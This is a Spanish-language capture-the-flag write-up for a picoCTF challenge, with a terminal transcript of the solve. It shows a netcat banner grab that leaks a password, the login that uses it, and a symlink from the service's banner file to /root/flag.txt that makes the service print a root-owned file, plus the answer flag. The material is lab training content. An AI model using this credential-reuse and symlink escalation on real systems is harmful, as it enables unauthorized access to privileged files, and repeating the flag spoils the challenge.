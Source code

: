
###### Descripción:
Can you abuse the banner?

The server has been leaking some crucial information on `tethys.picoctf.net 55383. Use the leaked information to get to the server.

To connect to the running application use nc tethys.picoctf.net 55460. From the above information abuse the machine and find the flag in the /root directory.


###### Pistas:

-Do you know about symlinks?
-Maybe some small password cracking or guessing



**Solución 1**

```
En kali linux:

──(kali㉿kali)-[~]
└─$ nc tethys.picoctf.net 55383 
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
^C
                                                                                                          
┌──(kali㉿kali)-[~]
└─$ nc tethys.picoctf.net 55460 
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234


What is the top cyber security conference in the world?
DEFCON


the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper


player@challenge:~$ rm /home/player/banner
rm /home/player/banner

player@challenge:~$ ln -s /root/flag.txt /home/player/banner
ln -s /root/flag.txt /home/player/banner
player@challenge:~$ ^C
                                                                                                          
┌──(kali㉿kali)-[~]
└─$ nc tethys.picoctf.net 55460
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_8126c9b0}

what is the password? 


```


## Respuesta: **picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_8126c9b0}**


###### Referencias: 
**[https://www.youtube.com/watch?v=M6N0IBIDp-Q](https://www.youtube.com/watch?v=M6N0IBIDp-Q)**